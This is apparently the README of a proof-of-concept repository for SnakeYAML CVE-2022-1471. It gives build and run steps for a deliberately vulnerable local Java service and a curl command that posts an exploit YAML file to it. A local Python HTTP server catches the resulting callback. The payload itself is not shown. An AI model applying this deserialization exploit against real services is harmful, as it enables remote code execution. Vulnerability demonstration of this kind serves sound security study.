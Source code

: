 # snakeyaml_cve_poc
SnakeYAML-CVE-2022-1471-POC


## build

Either build the jar on your host with `mvn clean compile assembly:single`

Or use `docker` to build an image with `docker build -t snakeyaml .`

## run

Run the container with `docker run --rm -p8080:8080 snakeyaml` 

or the jar if you built on your host with `java -jar target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar`

or when using jars in lib folder `java -cp "target/snakeyaml-1.0-SNAPSHOT-jar-with-dependencies.jar:/libs/*" com.example.snakeyaml.App`

## use

Send a get request to serialize object of student class and send yaml as response
![](images/image1.png)

Send a post request with yaml to read YAML object as custom java object - deserialization
![](images/image2.png)


## curl command
```shell
curl POST --data-binary @/files/exploit.yaml  -H "Content-type: text/x-yaml" http://localhost:8080
```

## exploit

Execute `python3 -m http.server 8000` to run the http server

Send a post request with yaml containing exploit
![](images/image3.png)

You should observe a HTTP GET request on the listner
